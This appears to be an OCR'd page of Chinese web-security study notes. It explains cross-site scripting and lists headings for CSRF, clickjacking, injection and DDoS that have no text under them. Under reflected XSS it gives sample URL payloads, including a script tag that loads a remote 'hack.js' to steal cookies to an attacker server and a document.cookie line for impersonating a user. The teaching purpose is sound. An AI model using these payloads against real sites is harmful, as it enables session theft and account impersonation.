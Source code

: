 网络安全 39

### xss

跨站脚本攻击

由于 v-html 和 eval()会解析字符串而可能执行脚本而不安全

- 通过注入非本站的 html 标签或脚本以误导用户
- 伪造虚假的表单标签以骗取用户输入个人信息
- 利用本站之外的脚本窃取用户 cookie 以帮助攻击者私自发送请求，如显示伪造的文章或图片，由于获取图片需要发送 http 请求，可以在其 url 后携带 cookie

#### 反射型

即 url 参数拼接

1. 对于普通网址进行参数拼接如`http://localhost:3000/?from=<script>alert(1)</script>`
2. 注入`http://localhost:3000/?from=<script src="localhost:4000/hack.js"></script>`以执行站外脚本，获取 cookie 后存储在攻击者服务器内
3. 短域名伪造`http://dwz.cn`
4. 使用其 cookie 以伪造该用户登录本站`document.cookie="aaaaaaa"`

#### 存储型

即存储到该站数据库后读取时注入

### csrf

### 点击挟持

### sql 注入

### os 注入

### 请求挟持

### ddos

